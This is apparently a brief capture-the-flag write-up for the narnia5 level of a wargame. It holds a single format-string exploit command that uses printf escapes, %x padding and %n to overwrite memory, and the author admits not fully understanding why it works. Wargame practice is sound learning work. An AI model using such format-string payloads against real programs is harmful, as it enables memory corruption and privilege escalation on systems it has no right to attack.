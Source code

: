 ./narnia5 $(printf "\xcc\xd6\xff\xff")%400x.%50x.%20x.%22x.%n

Don't quite understand WHY this works, but managed to puzzle it out with The Art of Exploitation `0x354`
